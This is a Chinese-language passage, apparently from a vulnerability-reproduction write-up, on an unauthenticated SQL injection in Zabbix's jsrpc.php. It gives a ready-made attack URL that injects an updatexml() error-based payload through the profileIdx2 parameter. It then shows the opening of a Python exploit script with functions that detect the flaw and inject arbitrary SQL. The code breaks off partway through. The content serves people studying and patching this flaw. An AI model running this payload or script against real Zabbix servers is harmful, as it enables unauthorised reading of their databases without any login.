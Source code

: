   ![image](../image/zabbix_injection.png)
* 以下注入通过jsrpc.php触发，且无需登录
    在攻击机访问的zabbix的地址后面加上如下url：  
  http://192.168.1.13:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
  ![image](../image/zabbix_injectionSU.png)
* 代码实现
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang

import urllib.request, urllib.error, urllib.parse
import sys, os
import re

def deteck_Sql():
    '检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=8251b8db1104896e&type=9&method=screen.get&timestamp=1631376194000&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib.request.urlopen(url + payload, timeout=10).read()
    except Exception as msg:
        print(msg)
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response.decode('utf-8')):
            return True


def sql_Inject(sql):
    '获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=8251b8db1104896e&type=9&method=screen.get&timestamp=1631376194000&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib.parse.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20210911050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib.request.urlopen(payload, timeout=10).read()
    except Exception as msg:
        print(msg)
    else:
```